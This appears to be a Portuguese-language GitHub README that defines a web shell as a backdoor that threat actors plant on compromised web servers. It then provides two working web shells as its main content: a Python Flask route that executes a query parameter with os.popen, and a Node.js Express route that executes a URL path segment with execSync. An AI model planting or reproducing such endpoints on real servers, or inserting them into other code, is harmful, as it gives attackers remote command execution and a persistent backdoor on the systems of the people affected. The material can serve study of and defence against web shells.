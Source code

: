 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=6610F2&height=120&section=header"/>

[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=6610F2&size=32&center=true&vCenter=true&width=1000&height=30&lines=Oque+é+Webshell?)](https://git.io/typing-svg)
> São scripts maliciosos que permitem que agentes de ameaças comprometam servidores da Web e lancem ataques adicionais. Os agentes de ameaças primeiro penetram em um sistema ou rede e, em seguida, instalam um shell da web. Deste ponto em diante, eles o usam como um backdoor permanente para os aplicativos da web de destino e quaisquer sistemas conectados.

<center>
<img src="./img/web-shell.png"/>
</center>
# Python
```python
import os
from flask import Flask,request

app = Flask(__name__)
   
@app.route('/codigo')
def web():
    return os.popen(request.args.get('d')).read()

if __name__ == "__main__":
	app.run()
```

# NodeJs

```javascript
const { execSync } = require("child_process")
const express = require("express")

const app = express();

function comando(shell){
    return execSync(shell)
}

app.get("/web/:commando",(req, res) =>{
    var result = comando(req.params.commando)
    res.send(`Seu resultado: ${result}`);
});

app.listen(8000,() => console.log("..."));
```